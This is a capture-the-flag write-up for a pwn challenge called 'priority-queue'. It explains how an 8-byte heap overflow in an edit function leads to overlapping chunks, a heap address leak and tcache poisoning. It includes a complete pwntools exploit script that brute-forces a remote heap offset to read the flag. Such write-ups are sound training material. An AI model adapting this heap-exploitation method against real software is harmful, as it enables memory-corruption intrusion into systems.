

# [priority-queue]

* **CTF Name:** b01lers ctf 2026
* **Category:** pwn
* **Hint:** Anything but paying attention during DSA lecture...
* **Challenge Author:** spacemonkeyy
* **Writeup Author:** Nakata Christian (n4ct)
* **Date:** April 19, 2026

---

## Challenge Description



## 1. Executive Summary

**Objective:**
To exploit a priority queue interface by leveraging a heap buffer overflow vulnerability to leak the heap base, perform tcache poisoning, and eventually read the flag that was loaded into heap memory at runtime.

**Result:**
The vulnerability was traced to the `edit()` function, which performs a fixed-size `read(..., 32)` on a dynamically allocated chunk. By allocating small chunks and overwriting the metadata of adjacent chunks, I created an overlapping chunk scenario. This allowed for leaking a valid heap pointer and executing a tcache poisoning attack to hijack the program's global array variable. Due to remote environment offset shifts, an automated brute-force script was deployed to find the exact offset, successfully recovering the flag: `bctf{u53_4ft3r_fr33_f4n_v5_0v3rl4pp1n6_4110c4t10n5_3nj0y3r_8c6fd0b452}`.

**Method:**
The methodology involved static analysis of the C source code, manipulating heap layout via the provided binary operations (insert, delete, edit), and developing a Python exploit using pwntools that dynamically brute-forced the remote heap offset to execute the tcache poisoning.
---

## 2. Evidence Identification

This section provides details regarding the initial evidence file.

- **Filename:** `chall`
- **Size:** `18 KB`
- **SHA-256:** `dae084f4b673467392df28ab960912a7498297c3ad3fce05eb8e262254376c84`

**Initial Check:**
Verifying file type using signature headers (Magic Bytes).

```bash
$ file chall    
chall: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=7454c104e0148a66c312236826b9676dd93bb75e, for GNU/Linux 3.2.0, not stripped

```

---

## 3. Investigation Steps

### Step 1: Code Analysis

Looking at chall.c, the program implements a priority queue using a Min-Heap. The flag is loaded directly into the heap right at the start of `main()`:
```c
FILE *file = fopen("flag.txt", "r");
if (file) {
    char *flag = malloc(100);
    fgets(flag, 100, file);
    fclose(file);
}
```
This critical vulnerability lies in how user input is allocated versus how it is edited. In `insert()`, the allocation size is perfectly tailored to the string length:
```c
char *chunk = malloc(strlen(buffer) + 1);
```

If we insert a string like `11`, `malloc` allocates a minimum chunk of `0x20` (32 bytes), leaving 24 bytes for user data. However, the `edit()` function blindly reads 32 bytes:
```c
void edit(void) {
    // ...
    read(fileno(stdin), array[0], 32);
    move_down(0);
}
```

Writing 32 bytes into a 24-byte user data space results in an 8-byte heap buffer overflow, completely overwriting the metadata, specifically the `size` field of the adjacent chunk.

### Step 2: Heap Setup and Overlapping Chunks

To exploit this, I set up four chunks A, B, C, and D. By editing chunk A with 24 bytes of padding, I overwrote the size of chunk B to `0x31`. When B is freed, the glibc heap manager places it into the `0x30` tcache bin instead of its original `0x20` bin. Subsequent allocations of `0x30` bytes will now overlap with the metadata of chunk C.

### Step 3: Leaking the Heap Base

By freeing chunks C and D (both into the `0x20` tcache bin), chunk C's forward pointer (`fd`) now points to chunk D. I allocated a new chunk (E) taking the space of B, which now overlapped with C. By using the `edit()` function on E, I carefully wrote memory up to C's `fd` pointer without corrupting it. Calling `peek()` printed C's `fd` pointer, leaking the address of chunk D and bypassing ASLR on the heap.

### Step 4: Tcache Poisoning and Brute-Force

With chunk D's address leaked, I calculated the exact offset backwards to the global array variable and the flag string. I freed chunk E and allocated it again, this time overwriting C's `fd` pointer with the address of `array`. After popping C from the tcache, the next allocation returned a pointer directly to the `array` variable itself. I overwrote `array[0]` with the address of the flag chunk and called `peek()` to print it.

Because the remote Docker environment had slight shifts in heap offsets compared to local testing, I wrapped the exploit in a loop to brute-force the offset from `0x50` to `0x150`.

**Solver Script:**
```python
from pwn import *
import time

context.arch = 'amd64'
context.os = 'linux'

def exploit(offset):
    context.log_level = 'error' 
    p = None 
    
    try:
        p = remote('priority-queue.opus4-7.b01le.rs', 8443, ssl=True, timeout=5)
        
        def insert(msg):
            p.sendlineafter(b"quit): \n", b"insert")
            p.sendlineafter(b"Message: \n", msg)

        def delete():
            p.sendlineafter(b"quit): \n", b"delete")

        def peek():
            p.sendlineafter(b"quit): \n", b"peek")
            return p.recvline().strip()

        def edit(msg):
            p.sendlineafter(b"quit): \n", b"edit")
            p.sendafter(b"Message: \n", msg)

        # 1. SETUP
        insert(b"11") 
        insert(b"22") 
        insert(b"44") 
        insert(b"33") 

        # 2. OVERLAP (Overwrite B size)
        edit(b"\x01" * 24 + p64(0x31))

        # 3. POPULATE TCACHE
        delete() 
        delete() 
        delete() 
        delete() 

        # 4. HEAP LEAK
        insert(b"E" * 25) 
        edit(b"C" * 32)   

        leak = peek()
        d_addr = u64(leak[32:38].ljust(8, b'\x00'))
        
        # Calculate dynamic offsets
        array_addr = d_addr - offset
        flag_addr = array_addr - 0x70 

        # 5. TCACHE POISONING
        delete() 
        payload = b"F" * 32 + p64(array_addr)[:6]
        insert(payload)

        # 6. TRIGGER OVERWRITE
        insert(b"G" * 4) 
        insert(p64(flag_addr)[:6]) 

        # Print the flag
        result = peek()
        p.close()
        
        if b"bctf{" in result or b"flag{" in result or b"}" in result:
            context.log_level = 'info'
            log.success(f"Correct Array Offset: {hex(offset)}")
            log.success(f"FLAG: {result.decode('utf-8', 'ignore')}")
            return True
            
        return False
        
    except Exception as e:
        if p:
            p.close()
        return False

print("Offset brute force...")
for test_offset in range(0x50, 0x150, 0x10):
    print(f"Trying offset: {hex(test_offset)}...")
    if exploit(test_offset):
        break
    time.sleep(1) 
else:
    print("Offset not found.")
```

**Output:**
```bash
$ python3 a.py
Offset brute force...
Trying offset: 0x50...
Trying offset: 0x60...
Trying offset: 0x70...
Trying offset: 0x80...
Trying offset: 0x90...
Trying offset: 0xa0...
Trying offset: 0xb0...
Correct Array Offset: 0xb0
FLAG: bctf{u53_4ft3r_fr33_f4n_v5_0v3rl4pp1n6_4110c4t10n5_3nj0y3r_8c6fd0b452}
```

---

## 4. Conclusion

1. **Inconsistent Buffer Sizing:** Mixing `strlen()` for dynamic allocation with fixed-size `read()` calls creates an immediate and highly exploitable heap buffer overflow.

2. **Metadata Corruption:** By merely controlling 8 bytes past the allocated chunk space, the chunk size metadata can be altered, bypassing the glibc memory manager's tracking and leading directly to overlapping chunks.

3. **Environment Determinism:** While remote offsets often vary from local setups, heap allocations within the same execution path are highly deterministic. Brute-forcing a narrow window of offsets is a highly effective way to stabilize remote exploits.